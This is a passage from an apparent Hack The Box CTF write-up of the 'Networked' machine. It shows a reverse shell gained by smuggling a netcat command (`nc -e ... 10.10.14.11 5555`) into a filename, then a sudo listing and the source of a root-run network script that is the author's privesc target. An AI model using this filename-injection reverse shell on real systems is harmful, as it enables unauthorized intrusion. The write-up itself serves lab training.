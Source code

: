 I would need to create a filename like `; nc -e /bin/bash 10.10.14.11 5555` but forward slashes are not valid in a filename so I will use `$(which bash)` instead to return the full path to bash.

![](/assets/images/htb-writeup-networked/escalate1.png)

A few moments later I get a shell as `guly` and I get the first flag:

![](/assets/images/htb-writeup-networked/escalate2.png)

## Privesc

The path to root is pretty obvious since there's a sudo entry for `changename.sh`

```console
[guly@networked ~]$ sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
[guly@networked ~]$
```

The shell script requests a few variable from stdin, adds those to `/etc/sysconfig/network-scripts/ifcfg-guly` and then `ifup` is invoked to bring up the interface. There's a regex filter in place to filter special characters.

```sh
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
	echo "interface $var:"
	read x
	while [[ ! $x =~ $regexp ]]; do
		echo "wrong input, try again"
		echo "interface $var:"
		read x
	done
	echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done

/sbin/ifup guly0
```

